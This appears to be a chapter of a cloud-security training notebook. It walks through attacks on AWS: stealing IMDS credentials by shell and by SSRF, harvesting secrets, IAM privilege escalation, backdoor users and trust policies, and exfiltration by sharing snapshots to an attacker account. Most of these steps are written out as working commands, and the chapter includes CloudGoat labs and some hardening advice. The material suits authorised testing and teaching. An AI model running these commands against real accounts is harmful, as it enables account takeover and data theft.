





This is Chapter 2 of the Cloud Security notebook. Chapter 1 built the conceptual map — shared responsibility, control vs data plane, identity as the perimeter, the IMDS crown jewel, and the cloud kill chain. This chapter makes it concrete on the provider that dominates the market and most assessments: **Amazon Web Services**. We go hands-on with the AWS CLI, IAM enumeration, S3 exposure, the EC2 metadata credential-theft chain, and IAM privilege escalation — the exact techniques that turn a single leaked key or SSRF into account-wide control.

The through-line from Chapter 1 holds: **on AWS, everything is an authenticated API call, so the game is about credentials and the permissions attached to them.** You obtain a credential (a leaked key, an IMDS role, an assumed role), you discover what it can do, and you either act directly or escalate to something more powerful. This chapter teaches that loop — enumerate, escalate, move, persist — with real commands and realistic output, then shows the detection and hardening that counter each step.

Everything here is for accounts you own or are explicitly authorised to assess, within AWS's penetration-testing policy (Chapter 1, Part 12). The safest way to practise every technique below is a dedicated test account or a purpose-built vulnerable lab like CloudGoat or flAWS — used throughout.

---

## Part 1: The AWS CLI and Credential Model

Every technique in this chapter runs through the **AWS CLI** (`aws`), so learn it and the credential model from zero.

**What it is:** a command-line client that turns your commands into signed AWS API calls. **Why it matters:** it's the attacker's and defender's primary interface — faster and scriptable versus the console, and it's what you use once you've stolen credentials. Install and confirm:

```bash
$ sudo apt install awscli        # or: pip install awscli --break-system-packages
$ aws --version
aws-cli/2.15.0 Python/3.11 Linux/6.x
```

### How the CLI finds credentials

The CLI resolves credentials in a fixed precedence — know it, because it's how you "become" a stolen identity:

1. **Command-line options** (`--profile`, explicit params).
2. **Environment variables** — `AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY`, `AWS_SESSION_TOKEN` (the ones you `export` after stealing IMDS creds).
3. **The credentials file** `~/.aws/credentials` (named profiles).
4. **The config file** `~/.aws/config` (regions, role-assumption profiles).
5. **Container / IMDS role credentials** (when running on an EC2/ECS with a role).

```ini
# ~/.aws/credentials — named profiles
[default]
aws_access_key_id = AKIAEXAMPLE
aws_secret_access_key = wJalr...

[stolen]
aws_access_key_id = AKIASTOLEN
aws_secret_access_key = abc123...

# ~/.aws/config
[profile assume-admin]
role_arn = arn:aws:iam::123456789012:role/Admin
source_profile = stolen          # use 'stolen' creds to assume the Admin role
```

Two credential *types* you must distinguish (Chapter 1, Part 6c):

- **Long-lived access keys** — start with **`AKIA`**, live in `~/.aws/credentials`, never expire until rotated. The kind that leaks in Git.
- **Temporary STS credentials** — start with **`ASIA`**, include a **session token**, expire in minutes–hours. What IMDS and `AssumeRole` hand out.

```bash
# use a stolen static key set
$ export AWS_ACCESS_KEY_ID=AKIASTOLEN AWS_SECRET_ACCESS_KEY=abc123...
# or a stolen temporary set (note the extra session token)
$ export AWS_ACCESS_KEY_ID=ASIA... AWS_SECRET_ACCESS_KEY=... AWS_SESSION_TOKEN=IQoJ...
```

---

## Part 2: Who Am I? — First Steps With a Credential

The instant you have a credential, answer three questions: *who am I, what account am I in, and what can I do?* The first two are one call:

```bash
$ aws sts get-caller-identity
{
  "UserId": "AIDAEXAMPLE",
  "Account": "123456789012",
  "Arn": "arn:aws:iam::123456789012:user/dev-deploy"
}
```

This tells you the **identity type** (an IAM *user* `dev-deploy` here; would be `assumed-role/.../session` for a role), the **account ID**, and the ARN. It's the cloud equivalent of `whoami` and `id`, and — crucially — **it's low-noise and requires no special permission**, so it's always your first move.

`get-caller-identity` never fails due to permissions (any valid credential can call it), which also makes it the way to **validate a leaked key** is live:

```bash
# quick "is this leaked key still valid?" check
$ AWS_ACCESS_KEY_ID=AKIA... AWS_SECRET_ACCESS_KEY=... aws sts get-caller-identity
# success -> key works; error 'InvalidClientTokenId' -> key is dead/rotated
```

The third question — *what can I do?* — is the hard one, because AWS has no single "list my permissions" call for arbitrary principals without IAM read rights. You approach it three ways, in increasing noise:

1. **If you have IAM read perms:** enumerate your policies directly (Part 4).
2. **If not, brute-force enumerate:** the `enumerate-iam` tool tries thousands of read-only/`List*`/`Describe*` calls and records which succeed (Part 3) — revealing your effective permissions empirically.
3. **Simulate** (needs `iam:SimulatePrincipalPolicy`): ask AWS whether specific actions are allowed without performing them.



---

## Part 3: Enumeration — Mapping the Account

With a working credential, map what it can see. Do this **read-only first** (List/Describe/Get) to stay quiet and avoid changing state.

### enumerate-iam — discover your effective permissions

**What it is:** a tool (Andres Riancho / NCC) that fires a large battery of non-destructive `List*`/`Describe*`/`Get*` API calls across services and reports which return success — empirically revealing what your credential can do, even without IAM read access. **Why it exists:** because AWS won't just tell an arbitrary principal its permissions; you infer them by probing.

```bash
$ git clone https://github.com/andresriancho/enumerate-iam && cd enumerate-iam
$ pip install -r requirements.txt --break-system-packages
$ python enumerate-iam.py --access-key AKIA... --secret-key wJalr...
2027-... - INFO - Starting permission enumeration for access-key-id "AKIA..."
2027-... - INFO - -- iam.list_roles() worked!
2027-... - INFO - -- s3.list_buckets() worked!
2027-... - INFO - -- ec2.describe_instances() worked!
2027-... - INFO - -- lambda.list_functions() worked!
2027-... - INFO - -- sts.get_caller_identity() worked!
```

Each "worked!" line is a permission you have — the raw material for planning. (Note: this generates many API calls and is *noisy* — CloudTrail logs every one; use judiciously on real engagements.)

### Manual read-only sweep

Once you know which services you can touch, enumerate them:

```bash
# identity & access
$ aws iam list-users ; aws iam list-roles ; aws iam list-groups
$ aws iam list-attached-user-policies --user-name dev-deploy
$ aws iam get-account-authorization-details    # everything, if allowed — gold mine

# storage
$ aws s3 ls                                     # buckets you can list
$ aws s3api get-bucket-policy --bucket <b>      # bucket policy
$ aws s3api get-public-access-block --bucket <b>

# compute
$ aws ec2 describe-instances --output table
$ aws ec2 describe-security-groups
$ aws ec2 describe-snapshots --owner-ids self

# secrets & data
$ aws secretsmanager list-secrets
$ aws ssm describe-parameters
$ aws rds describe-db-instances
```

`aws iam get-account-authorization-details` is the jackpot when permitted — it dumps every user, role, group, and policy in the account in one call, letting you compute privesc paths offline. Save its output; it's the input to Cloudsplaining/PMapper (Part 6).

### Region awareness

AWS is regional; many `Describe`/`List` calls only return the current region's resources. Sweep all regions when hunting:

```bash
$ for r in $(aws ec2 describe-regions --query 'Regions[].RegionName' --output text); do
    echo "== $r =="; aws ec2 describe-instances --region $r \
      --query 'Reservations[].Instances[].InstanceId' --output text
  done
```

---

## Part 4: S3 — The Most-Breached Service

S3 stores objects in globally-named **buckets**, and misconfigured buckets are the top cloud data-exposure. Understand the permission layers and the exposure states (Chapter 1, Part 7b — here, in operational depth).

### The three permission layers

S3 access is decided by three overlapping mechanisms, evaluated together:

| Layer | Scope | Notes |
|---|---|---|
| **IAM policies** | per-principal (identity-based) | what a user/role can do across buckets |
| **Bucket policies** | per-bucket (resource-based) | can grant *anonymous* (`Principal: *`) access — the danger |
| **ACLs** (legacy) | per-bucket/object | old grants like `AllUsers`/`AuthenticatedUsers` — subtle public exposure |
| **Block Public Access (BPA)** | account & bucket override | if on, *overrides* policies/ACLs that would make data public |

The critical interaction: **Block Public Access, when enabled, wins over any bucket policy or ACL that would expose data.** This is why account-level BPA is the single most effective S3 control — it makes "accidentally public" impossible regardless of a careless policy.

### Enumerate and exfil (anonymous)

Bucket names are global and guessable, so much S3 recon is unauthenticated:

```bash
# does the bucket exist / is it anonymously listable?
$ aws s3 ls s3://acme-backups --no-sign-request
2027-03-01 10:22:14  1048576 db-dump-2027-03-01.sql.gz     # public LIST

# read an object anonymously
$ aws s3 cp s3://acme-backups/db-dump-2027-03-01.sql.gz . --no-sign-request  # public READ

# test anonymous WRITE (worst case) — upload a canary file
$ echo test > /tmp/x ; aws s3 cp /tmp/x s3://acme-assets/x --no-sign-request   # public WRITE
```

Authenticated, inspect a bucket's exposure directly:

```bash
$ aws s3api get-bucket-acl --bucket acme-assets
# look for Grantee "URI": "http://acs.amazonaws.com/groups/global/AllUsers" -> PUBLIC
$ aws s3api get-bucket-policy --bucket acme-assets    # Principal "*" with s3:GetObject -> public
$ aws s3api get-public-access-block --bucket acme-assets  # is BPA on?
```

Tools scale the hunt: `cloud_enum -k acme`, `s3scanner scan`, and GrayhatWarfare's index of already-public buckets. The four exposure states (private / list / read / write) and their severities are in Chapter 1's Part 7b table; here the point is the *commands* to detect and confirm each.

---

## Part 5: EC2 and the IMDS Credential-Theft Chain

EC2 instances are IaaS VMs, and each can have an **IAM role** attached whose temporary credentials are served by the **Instance Metadata Service** at `169.254.169.254`. This is the crown-jewel chain from Chapter 1, now hands-on end to end.

### From a shell on the instance

If you have code execution on an EC2 instance (via an app RCE, SSH, etc.), read the role credentials directly:

```bash
# IMDSv1 (no token) — the classic
$ curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/
web-app-role
$ curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/web-app-role
{"AccessKeyId":"ASIA...","SecretAccessKey":"...","Token":"IQoJ...","Expiration":"..."}

# IMDSv2 (token required) — if v2 is enforced
$ TOKEN=$(curl -s -X PUT "http://169.254.169.254/latest/api/token" \
    -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")
$ curl -s -H "X-aws-ec2-metadata-token: $TOKEN" \
    http://169.254.169.254/latest/meta-data/iam/security-credentials/web-app-role
```

Also useful from IMDS: the instance's user-data script (often contains secrets!) and identity document:

```bash
$ curl -s http://169.254.169.254/latest/user-data          # deploy scripts, sometimes creds
$ curl -s http://169.254.169.254/latest/dynamic/instance-identity/document  # region, acct, AMI
```

### Via SSRF (no shell needed)

An SSRF in a web app on the instance reaches IMDS without any shell (Chapter 1, Part 5b):

```http
GET /proxy?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/web-app-role
```

### Use the stolen role

```bash
$ export AWS_ACCESS_KEY_ID=ASIA... AWS_SECRET_ACCESS_KEY=... AWS_SESSION_TOKEN=IQoJ...
$ aws sts get-caller-identity
"Arn": "arn:aws:sts::123456789012:assumed-role/web-app-role/i-0abc123"
$ aws s3 ls                          # whatever web-app-role permits
$ aws secretsmanager get-secret-value --secret-id prod/db   # often over-permissioned
```



**Detection note (you'll harden this in Part 10):** GuardDuty raises `UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration` when an instance role's creds are used from an IP that isn't the instance — so using stolen IMDS creds from your laptop is loud. Enforcing **IMDSv2 + hop-limit 1** blocks the SSRF variant entirely.

---

## Part 5b: STS and Temporary Credentials in Depth

Because so much of AWS attack and defense revolves around temporary credentials, understand **STS (Security Token Service)** — the service that mints short-lived credentials — precisely.

The credential-granting operations:

| STS call | Produces | Trigger |
|---|---|---|
| `AssumeRole` | temp creds for a role (per its trust policy) | you assume a role you're allowed to |
| `AssumeRoleWithWebIdentity` | temp creds from an OIDC token | GitHub Actions, k8s IRSA, mobile |
| `AssumeRoleWithSAML` | temp creds from a SAML assertion | enterprise SSO federation |
| `GetSessionToken` | temp creds (often MFA-gated) | MFA-protected sessions |
| `GetFederationToken` | temp creds for a federated user | legacy federation |

The **trust policy** on a role is the gate — it says *who* may assume the role. Reading it is how you find assumable roles:

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Principal": {"AWS": "arn:aws:iam::123456789012:user/dev-deploy"},
    "Action": "sts:AssumeRole"
  }]
}
```

If your ARN (or your whole account) appears as a `Principal`, you can assume that role. A dangerously broad trust (`"Principal": {"AWS": "*"}` or a whole external account) is a lateral-movement highway. Assume and continue:

```bash
$ aws sts assume-role --role-arn arn:aws:iam::123456789012:role/OpsRole \
    --role-session-name recon
{
  "Credentials": {
    "AccessKeyId": "ASIA...", "SecretAccessKey": "...",
    "SessionToken": "IQoJ...", "Expiration": "2027-04-08T13:00:00Z"
  }
}
$ export AWS_ACCESS_KEY_ID=ASIA... AWS_SECRET_ACCESS_KEY=... AWS_SESSION_TOKEN=IQoJ...
$ aws sts get-caller-identity     # now assumed-role/OpsRole/recon
```

Two security-relevant properties: temp creds **expire** (so exfiltrated creds have a limited window — good for defenders, a clock for attackers), and every `AssumeRole` is a **CloudTrail event** with the source and target role (so role-hopping is traceable). This is the mechanism behind Chapter 1's "short-lived credentials limit blast radius."



---

## Part 5c: Looting Secrets — Secrets Manager, SSM, and User-Data

A stolen role's real value is often not S3 objects but **secrets** — database passwords, API keys, tokens — which then unlock further systems. AWS stores these in a few predictable places; check them all:

```bash
# Secrets Manager
$ aws secretsmanager list-secrets --query 'SecretList[].Name'
$ aws secretsmanager get-secret-value --secret-id prod/db/password --query SecretString

# SSM Parameter Store (SecureString params often hold creds)
$ aws ssm describe-parameters --query 'Parameters[].Name'
$ aws ssm get-parameter --name /prod/api/key --with-decryption --query Parameter.Value

# EC2 user-data (deploy scripts frequently embed secrets in plaintext)
$ aws ec2 describe-instance-attribute --instance-id i-0abc --attribute userData \
    --query 'UserData.Value' --output text | base64 -d

# Lambda environment variables (secrets baked into function config)
$ aws lambda get-function-configuration --function-name app \
    --query 'Environment.Variables'

# CloudFormation outputs / ECS task defs sometimes leak creds too
$ aws ecs describe-task-definition --task-definition app \
    --query 'taskDefinition.containerDefinitions[].environment'
```

`--with-decryption` on SSM (and the `kms:Decrypt` permission it implies) is the subtle bit: a role that can read a SecureString parameter *and* decrypt it effectively has the secret. This is why Chapter 1 stressed separating data-access from key-use permissions — if the role lacks `kms:Decrypt`, the encrypted secret is useless to the attacker.

| Secret location | Command | Common contents |
|---|---|---|
| Secrets Manager | `get-secret-value` | DB creds, API keys, rotated secrets |
| SSM Parameter Store | `get-parameter --with-decryption` | config + credentials |
| EC2 user-data | `describe-instance-attribute ... userData` | deploy scripts, bootstrap creds |
| Lambda env vars | `get-function-configuration` | function secrets |
| ECS task defs | `describe-task-definition` | container env secrets |

Harvesting secrets is a top post-exploitation step because it enables **lateral movement beyond AWS** — a database password works from anywhere, a third-party API key pivots to another SaaS. **Detection:** `GetSecretValue`/`GetParameter` bursts from an unusual principal are a strong CloudTrail signal (Part 10).

---

## Part 5d: EC2, Networking, and Snapshot Recon

Beyond IMDS, EC2 and its surrounding services are rich recon targets once you have a credential that can `Describe` them.

```bash
# the fleet: instances, their roles, IPs, and security groups
$ aws ec2 describe-instances --query \
  'Reservations[].Instances[].{id:InstanceId,ip:PublicIpAddress,role:IamInstanceProfile.Arn,sg:SecurityGroups[].GroupId}' \
  --output table

# security groups open to the world (the classic misconfig)
$ aws ec2 describe-security-groups --query \
  'SecurityGroups[?IpPermissions[?contains(IpRanges[].CidrIp,`0.0.0.0/0`)]].GroupId'

# EBS snapshots — public or shared ones can be mounted to read whole filesystems
$ aws ec2 describe-snapshots --owner-ids self --query 'Snapshots[].{id:SnapshotId,vol:VolumeId}'
$ aws ec2 describe-snapshots --restorable-by-user-ids all   # snapshots shared with everyone!

# AMIs (machine images) — public custom AMIs sometimes bake in secrets
$ aws ec2 describe-images --owners self --query 'Images[].{id:ImageId,name:Name}'
```

A **public EBS snapshot** is a quiet catastrophe: an attacker in *any* account can create a volume from it and mount it, reading the entire disk (application code, config, credentials, databases). The exfil primitive from Part 7 (sharing a snapshot to an attacker account) is the offensive side of this; the defensive side is auditing for `--restorable-by-user-ids all` and denying public snapshots via SCP.

| EC2 recon target | Command | Risk it reveals |
|---|---|---|
| Instances + roles | `describe-instances` | which instances have powerful roles (IMDS targets) |
| Security groups | `describe-security-groups` | `0.0.0.0/0` on SSH/RDP/DB |
| EBS snapshots | `describe-snapshots --restorable-by-user-ids all` | public disk images = full data exposure |
| AMIs | `describe-images --owners self` | secrets baked into custom images |
| VPC/subnets | `describe-vpcs` / `describe-subnets` | network layout for pivoting |

Networking recon (VPCs, subnets, route tables) maps the environment for pivoting and tells you which resources sit in public vs private subnets — useful both for finding exposed backends (attacker) and for validating segmentation (defender).

---

## Part 6: IAM Privilege Escalation in Practice

The heart of AWS offense: from a low-priv identity to admin, using legitimate-but-dangerous API calls the over-permissive policy allows (Chapter 1, Part 6). Here are the top paths with real commands.

### Discover the paths

```bash
# dump all IAM (if permitted) and analyse offline
$ aws iam get-account-authorization-details > iam.json
$ pip install cloudsplaining --break-system-packages
$ cloudsplaining scan --file iam.json     # HTML report flagging privesc & data-exfil perms
# or map the graph:
$ pip install principalmapper --break-system-packages
$ pmapper graph create ; pmapper query 'preset privesc *'   # who can escalate to admin
```

`Cloudsplaining` flags policies with `iam:PassRole`, wildcard resources, and privesc actions; `PMapper` computes the *graph* of "who can become whom" and answers "can principal X reach admin?" directly.

### Path 1 — AttachUserPolicy (attach admin to yourself)

If you have `iam:AttachUserPolicy`, just attach `AdministratorAccess`:

```bash
$ aws iam attach-user-policy --user-name dev-deploy \
    --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
$ aws iam list-attached-user-policies --user-name dev-deploy   # confirm -> now admin
```

### Path 2 — CreatePolicyVersion (rewrite a policy you're bound to)

With `iam:CreatePolicyVersion` on a customer-managed policy attached to you, publish a new default version granting `*:*`:

```bash
$ cat > admin.json <<'EOF'
{"Version":"2012-10-17","Statement":[{"Effect":"Allow","Action":"*","Resource":"*"}]}
EOF
$ aws iam create-policy-version --policy-arn <your-policy-arn> \
    --policy-document file://admin.json --set-as-default    # you are now admin
```

### Path 3 — PassRole + RunInstances / Lambda (run as a powerful role)

The classic. With `iam:PassRole` (for a powerful role) plus a compute-create permission, launch a resource *with* that role and use it:

```bash
# via EC2: launch an instance with an admin role, then read its creds from IMDS
$ aws ec2 run-instances --image-id ami-123 --instance-type t2.micro \
    --iam-instance-profile Name=AdminInstanceProfile --key-name mine
# then SSH in and curl IMDS -> admin role credentials

# via Lambda: create a function with a powerful role and invoke it to run your code as that role
$ aws lambda create-function --function-name pwn --runtime python3.12 \
    --role arn:aws:iam::123456789012:role/LambdaAdminRole \
    --handler h.handler --zip-file fileb://f.zip
$ aws lambda invoke --function-name pwn out.json    # your code runs as LambdaAdminRole
```

### Path 4 — UpdateFunctionCode (hijack an existing powerful Lambda)

If a Lambda already has a powerful role and you have `lambda:UpdateFunctionCode`, replace its code with yours:

```bash
$ aws lambda update-function-code --function-name reporting \
    --zip-file fileb://evil.zip           # runs as 'reporting' function's role on next invoke
```

| Path | Required permission(s) | Result |
|---|---|---|
| AttachUserPolicy | `iam:AttachUserPolicy` | attach AdministratorAccess → admin |
| CreatePolicyVersion | `iam:CreatePolicyVersion` | rewrite bound policy to `*:*` |
| PassRole + RunInstances | `iam:PassRole` + `ec2:RunInstances` | EC2 with admin role → IMDS creds |
| PassRole + CreateFunction | `iam:PassRole` + `lambda:CreateFunction`+`InvokeFunction` | run code as powerful role |
| UpdateFunctionCode | `lambda:UpdateFunctionCode` | hijack existing powerful function |
| CreateAccessKey | `iam:CreateAccessKey` | mint keys for an admin user |

The unifying principle: **cloud privesc is a graph of "can-act-as" edges**, and each dangerous permission is an edge. `PMapper` computes the path; your job is to spot the edge in the policy and walk it.

---

## Part 7: Lateral Movement and Persistence

Once you have a foothold (or admin), you spread and dig in.

### Lateral movement — AssumeRole and cross-account

Roles are assumed via STS if the role's **trust policy** permits your principal:

```bash
$ aws sts assume-role --role-arn arn:aws:iam::123456789012:role/OpsRole \
    --role-session-name x
# returns temporary ASIA creds for OpsRole -> export and continue
```

**Cross-account** movement happens when a role in *another* account trusts your account/principal (a common misconfig in multi-account orgs). Enumerate assumable roles and hop:

```bash
$ aws iam list-roles --query 'Roles[].{n:RoleName,trust:AssumeRolePolicyDocument}' --output json
# look for trust policies with Principal pointing at accounts/roles you control -> assume them
```

### Persistence — survive credential rotation

Attackers plant durable access so rotating one key doesn't evict them:

```bash
# new access key for an admin user (survives your original cred being revoked)
$ aws iam create-access-key --user-name admin

# backdoor a role's trust policy to also trust an attacker-controlled account
$ aws iam update-assume-role-policy --role-name PowerfulRole \
    --policy-document file://backdoor-trust.json

# create a new IAM user with admin + login profile
$ aws iam create-user --user-name svc-backup
$ aws iam attach-user-policy --user-name svc-backup \
    --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
$ aws iam create-login-profile --user-name svc-backup --password 'Str0ng!'
```

Stealthier persistence: a Lambda triggered by an event (e.g. a new IAM user creation) that re-adds a backdoor, or an EventBridge rule invoking attacker code — techniques Pacu automates.



### Impact / exfil

With sufficient access: copy an RDS/EBS snapshot to an attacker account, read secrets, or (the noisy end) launch cryptomining or delete backups:

```bash
# share a snapshot to an attacker-controlled account (classic exfil)
$ aws ec2 modify-snapshot-attribute --snapshot-id snap-123 \
    --attribute createVolumePermission --operation-type add --user-ids <attacker-acct>
$ aws rds modify-db-snapshot-attribute --db-snapshot-identifier prod \
    --attribute-name restore --values-to-add <attacker-acct>
```

---

## Part 8: Pacu — The AWS Exploitation Framework

**What it is:** Pacu (Rhino Security Labs) is the Metasploit of AWS — a modular post-exploitation framework with modules for enumeration, privesc, persistence, and exfil. **Why it exists:** to automate the multi-step chains above with one tool and a session that tracks discovered data. (The cloud-tooling chapter of this notebook teaches Pacu, ScoutSuite, and Prowler in full; here's the essential workflow so you can use it now.)

```bash
$ pip install pacu --break-system-packages
$ pacu
Pacu > import_keys stolen              # bring in ~/.aws profile 'stolen'
Pacu > run iam__enum_permissions       # discover what the creds can do
Pacu > run iam__enum_users_roles_policies_groups
Pacu > run iam__privesc_scan           # find and (optionally) execute privesc paths
Pacu > run s3__download_bucket         # loot S3
Pacu > run iam__backdoor_users_keys    # persistence
```

Pacu's `iam__privesc_scan` encodes the Part 6 paths and will *attempt* the escalation, so use it only where authorised. Its session database records every enumerated user, role, bucket, and secret so subsequent modules chain automatically — the same enumerate→escalate→persist loop, automated.

---

## Part 9: Lab — From a Leaked Key to Account Admin

Put it together on a CloudGoat-style scenario: you're handed a **leaked low-privilege access key** (as if found in a public repo) and must reach account admin. This mirrors `cloudgoat iam_privesc_by_rollback`/`_by_attachment`.

### 9.1 Set up (authorised lab)

```bash
$ git clone https://github.com/RhinoSecurityLabs/cloudgoat && cd cloudgoat
$ ./cloudgoat.py create iam_privesc_by_rollback   # deploys the vulnerable IAM setup
# outputs a low-priv access key pair -> that's your "leaked key"
```

### 9.2 Orient

```bash
$ export AWS_ACCESS_KEY_ID=AKIA<low> AWS_SECRET_ACCESS_KEY=<low>
$ aws sts get-caller-identity
"Arn": "arn:aws:iam::123456789012:user/raphael"        # we are 'raphael'
$ aws iam list-attached-user-policies --user-name raphael
# raphael has a customer-managed policy attached, and (crucially) iam:CreatePolicyVersion on it
$ aws iam list-policy-versions --policy-arn <raphael-policy-arn>
# multiple versions exist -> the "rollback" path
```

### 9.3 Escalate (rollback / new-version)

The scenario grants `iam:CreatePolicyVersion` (or `SetDefaultPolicyVersion`) on raphael's own policy — so raphael can point the policy at a more-permissive *existing* version, or publish a new admin version:

```bash
# option A: roll back to an older, more-permissive version
$ aws iam set-default-policy-version --policy-arn <arn> --version-id v1
# option B: publish a new admin version
$ cat > admin.json <<'EOF'
{"Version":"2012-10-17","Statement":[{"Effect":"Allow","Action":"*","Resource":"*"}]}
EOF
$ aws iam create-policy-version --policy-arn <arn> \
    --policy-document file://admin.json --set-as-default
```

### 9.4 Confirm admin and loot

```bash
$ aws iam list-users                         # now works -> we have iam:*
$ aws s3 ls                                   # all buckets
$ aws iam attach-user-policy --user-name raphael \
    --policy-arn arn:aws:iam::aws:policy/AdministratorAccess   # cement it
$ aws sts get-caller-identity                 # still raphael, but now admin-equivalent
```

Run output (abridged):

```
[+] identity: user/raphael (low-priv)
[+] found iam:CreatePolicyVersion on raphael-policy (arn:...:policy/cg-raphael-policy)
[+] published admin policy version v5 as default
[+] iam list-users now succeeds -> privilege escalation confirmed
[+] account 123456789012 fully enumerable; admin achieved
```

### 9.5 Clean up

```bash
$ ./cloudgoat.py destroy iam_privesc_by_rollback   # tear down the lab
```

**Why it worked:** a single over-permission (`iam:CreatePolicyVersion` on a policy the user is bound to) let a low-priv user rewrite their own permissions to admin — no exploit, just IAM. This is the archetypal AWS privesc and exactly what `Cloudsplaining`/`PMapper` would have flagged as a path to admin during a defensive review. **Every step here was a legitimate, logged API call** — which is precisely why detection (Part 10) matters.

---

## Part 9b: Second Lab — SSRF to IMDS to Data (CloudGoat `ec2_ssrf`)

The other archetypal AWS breach: an SSRF in a web app leads to IMDS credentials and then data exfil — the Capital One shape. CloudGoat's `ec2_ssrf` scenario reproduces it.

### 9b.1 Deploy and find the SSRF

```bash
$ ./cloudgoat.py create ec2_ssrf     # deploys a Lambda-fronted app + EC2 with a role
# scenario gives you a low-priv key; you enumerate to a Lambda URL / app with an SSRF param
$ aws lambda list-functions --query 'Functions[].FunctionName'
$ aws lambda get-function-url-config --function-name <fn>   # the app endpoint
```

The app has a parameter that makes the server fetch a URL. Point it at IMDS:

```bash
$ curl "https://<app-url>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"
cg-ec2-role-...                                   # role name returned -> SSRF reaches IMDS
$ curl "https://<app-url>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/cg-ec2-role-..."
{"AccessKeyId":"ASIA...","SecretAccessKey":"...","Token":"IQoJ...","Expiration":"..."}
```

### 9b.2 Assume the role and exfil

```bash
$ export AWS_ACCESS_KEY_ID=ASIA... AWS_SECRET_ACCESS_KEY=... AWS_SESSION_TOKEN=IQoJ...
$ aws sts get-caller-identity
"Arn": "arn:aws:sts::...:assumed-role/cg-ec2-role-.../i-0abc"
$ aws s3 ls                                        # the role can list buckets
$ aws s3 ls s3://cg-secret-bucket-... 
2027-... 4096 confidential.txt
$ aws s3 cp s3://cg-secret-bucket-.../confidential.txt -    # exfil the flag
```



### 9b.3 The fix, demonstrated

Re-deploy with IMDSv2 enforced (or set it on the instance) and the same SSRF fails at step 1 — a `GET`-only SSRF can't perform the token `PUT`:

```bash
$ aws ec2 modify-instance-metadata-options --instance-id i-0abc \
    --http-tokens required --http-put-response-hop-limit 1
$ curl "https://<app-url>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"
# 401 / empty -> IMDSv2 requires a PUT'd token the SSRF can't send
$ ./cloudgoat.py destroy ec2_ssrf
```

**Why it worked and why the fix works:** the app's SSRF gave the attacker the instance's *identity* without a shell; the role's S3 permission then exposed data. IMDSv2 breaks the identity-theft step because obtaining creds now requires a `PUT` request (with a custom header and a hop limit) that a simple reflected SSRF cannot make. This single lab justifies the "enforce IMDSv2" mandate more viscerally than any policy document.

---

## Part 10: Detection & Defense Angle

Every technique in this chapter is an API call, and CloudTrail logs them — the defender's structural advantage. Map defenses to the chapter's attacks.

**Least-privilege IAM (the master control).** Most of Part 6 evaporates under least privilege:

